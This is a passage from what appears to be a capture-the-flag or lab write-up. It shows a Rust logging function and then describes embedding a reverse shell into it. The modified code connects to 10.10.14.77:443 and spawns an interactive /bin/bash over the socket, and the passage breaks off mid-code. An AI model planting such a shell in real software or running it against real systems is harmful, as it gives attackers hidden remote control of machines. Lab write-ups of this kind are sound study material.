 ```rust

    if output.status.success() {
        let stdout = String::from_utf8_lossy(&output.stdout);
        let stderr = String::from_utf8_lossy(&output.stderr);
        println!("standar output: {}", stdout);
        println!("error output: {}", stderr);
    } else {
        let stderr = String::from_utf8_lossy(&output.stderr);
        eprintln!("Error: {}", stderr);
    }

    let now = Local::now();
    let timestamp = now.format("%Y-%m-%d %H:%M:%S").to_string();
    let log_message = format!("[{}] - User: {}, Query: {}, Justification", timestamp, user, query);

    let mut file = match OpenOptions::new().append(true).create(true).open("log.txt") {
        Ok(file) => file,
        Err(e) => {
            println!("Error opening log file: {}", e);
            return;
        }
    };

    if let Err(e) = file.write_all(log_message.as_bytes()) {
        println!("Error writing to log file: {}", e);
    }
}
```

So now that we have a reverse shell and the original file i decided to embed the reverse shell code into original file resulting into the following rust file

```rust
extern crate chrono;

use std::fs::OpenOptions;
use std::io::Write;
use chrono::prelude::*;
use std::net::TcpStream;
use std::os::unix::io::{AsRawFd, FromRawFd};
use std::process::{Command, Stdio};

pub fn log(user: &str, query: &str, justification: &str) {
    let now = Local::now();
    let timestamp = now.format("%Y-%m-%d %H:%M:%S").to_string();
    let log_message = format!("[{}] - User: {}, Query: {}, Justification: {}\n", timestamp, user, query, justification);
	let sock = TcpStream::connect("10.10.14.77:443").unwrap();
    // a tcp socket as a raw file descriptor
    // a file descriptor is the number that uniquely identifies an open file in a computer's operating system
    // When a program asks to open a file/other resource (network socket, etc.) the kernel:
    //     1. Grants access
    //     2. Creates an entry in the global file table
    //     3. Provides the software with the location of that entry (file descriptor)
    // https://www.computerhope.com/jargon/f/file-descriptor.htm
    let fd = sock.as_raw_fd();
    // so basically, writing to a tcp socket is just like writing something to a file!
    // the main difference being that there is a client over the network reading the file at the same time!

    Command::new("/bin/bash")
        .arg("-i")
        .stdin(unsafe { Stdio::from_raw_fd(fd) })
```